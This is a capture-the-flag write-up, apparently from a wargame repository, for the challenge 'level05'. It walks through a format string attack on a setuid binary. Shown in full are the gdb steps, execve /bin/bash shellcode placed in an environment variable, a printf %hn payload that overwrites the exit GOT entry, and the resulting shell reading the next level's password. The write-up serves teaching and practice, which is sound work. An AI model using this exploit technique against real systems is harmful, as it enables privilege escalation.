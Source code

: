 # level05

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program uses vulnerable `printf` making format string attack possible.

```c
int main() {
    ...
    char buf[100];
    fgets(buf, 100, stdin);
    ...
    printf(buf);
    exit(0);
}
```

It is clear that the best way here will be to use format attack to rewrite `exit` address in GOT.

First, we need to get address of `exit@plt`:
```bash
(gdb) p exit
$1 = {<text variable, no debug info>} 0x8048370 <exit@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

Adding shellcode to env:
```bash
export PAYLOAD=$'\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```

Getting the address of the shellcode:
```c
(gdb) b main
(gdb) r
(gdb) x/1000s environ
...
0xffffdf8c:      "PAYLOAD=\220\220\220\220j\vX\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341̀"
...
(gdb) x/100bx 0xffffdf8c
0xffffdf8c:     0x50    0x41    0x59    0x4c    0x4f    0x41    0x44    0x3d
0xffffdf94:     0x90    0x90    0x90    0x90    0x6a    0x0b    0x58    0x99
0xffffdf9c:     0x52    0x66    0x68    0x2d    0x70    0x89    0xe1    0x52
0xffffdfa4:     0x6a    0x68    0x68    0x2f    0x62    0x61    0x73    0x68
0xffffdfac:     0x2f    0x62    0x69    0x6e    0x89    0xe3    0x52    0x51
0xffffdfb4:     0x53    0x89    0xe1    0xcd    0x80    0x00    0x4c    0x45
...
```

The `0xffffdf94` is too large when writing it through `printf` and not working, that's why we need to pass it separately, by 2 bytes.

The idea is to place both addresses on the stack and write `0xdf94` and `0xffff`. We should also remember that our 2 addresses take 8 bytes.
```bash
$((0xffff - 0xdf94))
8299: command not found
$((0xdf94))
57236: command not found    <- subtract 8 bytes from this value as it comes first
```

As the array is located on `ESP+0x28` and the buffer passed to `printf` is on `ESP`, position of the first argument will be at <br>
0x28 / 0x4 bytes per stack argument = 40 / 4 = `10`th argument.

Exploit!
```bash
export PAYLOAD=$'\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'

python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57228c%10$hn" + "%8299c%11$hn"' > /tmp/l5

cat /tmp/l5 - | ./level05
```

Getting token:
```bash
whoami
level06
cd ../level06
ls -la
total 17
dr-xr-x---+ 1 level06 level06   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level06 level06  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level06 level06 3533 Sep 10  2016 .bashrc
-rw-r--r--+ 1 level06 level06   41 Oct 19  2016 .pass
-rw-r--r--  1 level06 level06  675 Sep 10  2016 .profile
-rwsr-s---+ 1 level07 users   7907 Sep 10  2016 level06
cat .pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## References
- [The video, that explains solution to almost the same problem](https://www.youtube.com/watch?v=t1LH9D5cuK4)
- [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
